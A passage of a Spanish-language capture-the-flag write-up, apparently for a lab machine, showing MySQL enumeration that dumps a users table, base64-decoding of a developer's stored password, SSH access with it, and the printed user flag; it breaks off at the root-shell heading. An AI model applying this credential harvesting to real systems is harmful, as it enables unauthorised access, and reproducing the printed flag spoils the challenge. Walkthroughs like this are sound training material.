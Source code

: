 ```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0,11 sec)

mysql> use whackywidget

Database changed
mysql> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0,11 sec)

mysql> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0,10 sec)
```

La contraseña está en *base64*. Para decodificarla aplicamos:

```bash
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
```

Obtenemos *anEnglishManInNewYork027468*. Ahora nos podemos autenticar por ***SSH*** con esas credenciales.

### user.txt

Encontraremos la primera *flag* en el *homedir* del usuario *developer*:

```bash
-bash-5.0$ pwd
/home/developer
-bash-5.0$ cat user.txt 
aaa9ba53194fe9f7d66a4e25699826fd
```

## Consiguiendo shell como root 
